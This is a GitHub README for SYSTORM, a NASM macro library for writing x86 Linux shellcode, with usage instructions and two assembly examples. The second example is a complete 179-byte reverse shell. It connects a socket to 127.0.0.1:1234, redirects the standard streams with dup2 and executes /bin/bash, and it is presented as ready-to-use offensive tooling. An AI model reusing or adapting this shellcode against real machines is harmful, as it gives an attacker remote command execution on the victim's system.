 # SYSTORM
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use functions defined within the .inc files, you have to include that file: `%include "syscall.inc"`
If using "thread.inc", "socket.inc", or "utils.inc", you have to include each function that you want to use.
For example: write `use.thread.create` to use thread.create.

A simple program is:
```
%include "syscall.inc"
; %include "thread.inc"
%include "socket.inc"
%include "utils.inc"

global _start
; _start goes first
_start:
    jmp main

; syscalls do not need to be included with 'use.*'
use.sock.socket
use.sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple reverse shell (179 bytes) is:
```
%include "syscall.inc"
%include "socket.inc"
%include "utils.inc"

global _start
_start:
    jmp main

use.sock.socket
use.sock.connect

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, dword 0x0101017F, 0xD204	; 127.0.0.1, 1234s
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
    sys.exit 0
```

